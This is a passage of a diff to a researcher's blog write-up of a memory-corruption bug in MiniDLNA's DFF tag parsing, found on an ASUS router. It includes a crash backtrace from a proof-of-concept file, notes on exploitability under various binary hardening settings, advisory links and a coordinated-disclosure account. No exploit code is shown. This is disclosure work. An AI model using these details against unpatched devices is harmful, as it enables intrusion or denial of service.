+#1  0x00049d24 in _get_dfffileinfo (file=0x6e5a54d8 "/dev/shm/Downloads/poc1.dff", psong=0x6e5a40ac) at tagutils/tagutils-dff.c:132
+#2  0x0004d490 in _get_fileinfo (file=0x6e5a54d8 "/dev/shm/Downloads/poc1.dff", psong=0x6e5a40ac) at tagutils/tagutils.c:204
+#3  0x0004d804 in readtags (path=0x6e5a54d8 "/dev/shm/Downloads/poc1.dff", psong=0x6e5a40ac, stat=0x6e5a41b0, lang=0x780d8 <lang> "en_GB",
+    type=0x6e5a4218 "dff") at tagutils/tagutils.c:304
+#4  0x00030e08 in GetAudioMetadata (path=0x6e5a54d8 "/dev/shm/Downloads/poc1.dff", name=0x6dc012e8 "poc1.dff") at metadata.c:380
+#5  0x00037710 in insert_file (name=0x6dc012e8 "poc1.dff", path=0x6e5a54d8 "/dev/shm/Downloads/poc1.dff", parentID=0x6dc01962 "", object=0,
+    types=7 '\a') at scanner.c:486
+#6  0x00039c90 in monitor_insert_file (name=0x6dc012e8 "poc1.dff", path=0x6e5a54d8 "/dev/shm/Downloads/poc1.dff") at monitor.c:257
+#7  0x0004ed74 in inotify_thread (arg=0x0) at monitor_inotify.c:357
+#8  0x76805310 in start_thread (arg=0x6e5aeb00) at pthread_create.c:477
+#9  0x767875d8 in ?? () at ../sysdeps/unix/sysv/linux/arm/clone.S:73 from /lib/arm-linux-gnueabihf/libc.so.6
+```
+
+I tried exploiting the vulnerability on Ubuntu, but I could not corrupt anything. I only had a reliable crash. If you pull MiniDLNA 1.3.3 from Ubuntu's apt repo, you get a binary hardened with PIE, full RELRO, stack canaries, FORTIFY_SOURCE, and `-fstack-clash-protection`. 
+
+On other embedded/router-class builds without these mitigations, this memory corruption can lead to code execution. On anything built with a modern, default-hardened toolchain, it degrades to a denial-of-service condition. But that is just my experience.
+
 # References
 
-- TODO
-- TODO
-- TODO
+- [VulnCheck](https://www.vulncheck.com/advisories/minidlna-unbounded-vla-to-rce){:target="_blank"}
+- [ASUS Security Advisory](https://www.asus.com/security-advisory#bulletins){:target="_blank"}
+- [ASUS Firmware Update 3.0.0.4.388_24437](https://www.asus.com/networking-iot-servers/wifi-routers/asus-gaming-routers/rt-ax86u/helpdesk_bios?model2Name=RT-AX86-Series-RT-AX86U-RT-AX86S)
+- [ASUS Hall of Fame](https://www.asus.com/security-advisory#hof){:target="_blank"}
+- [NIST](https://nvd.nist.gov/vuln/detail/cve-2026-29508){:target="_blank"}
 
 # Outro
 
-What started as me poking at my own router ended up as my first ARM memory corruption bug.
+I reported the vulnerability through [VulnCheck](https://vulncheck.com){:target="_blank"} in March, who handled the coordination. ASUS was responsive, and over the following months they sent me several firmware builds to test, and I kept throwing my PoCs at each one until the vulnerability was properly fixed by adding a bounds check for the Property chunk size.
 
-I reported the vulnerability through [VulnCheck](https://vulncheck.com), who handled the coordination. ASUS was responsive, and over the following weeks they sent me a several firmware builds to test, and I kept throwing my PoC's at each one until the issues were properly fixed.
-
-One thing worth keeping in mind: this vulnerabilities I discovered live in ReadyMedia / MiniDLNA itself, not in the ASUS firmware. Unfortunatelly, the ReadyMedia / MiniDLNA maintainers did not respond. The same vulnerable code still ships in plenty of Linux distributions and NAS appliances. I did not check whether it's exploitable there. The binary protections, libc, and stack layout differ from target to target, so what gave me code execution here, might land you a plain DoS somewhere else (or nothing at all). If you have a vulnerable box lying around, it might be a fun afternoon.
+What started as me poking at my own router ended up as my first memory corruption bug and I've learned a lot in the process.
 
 0x41414141 the planet!
 
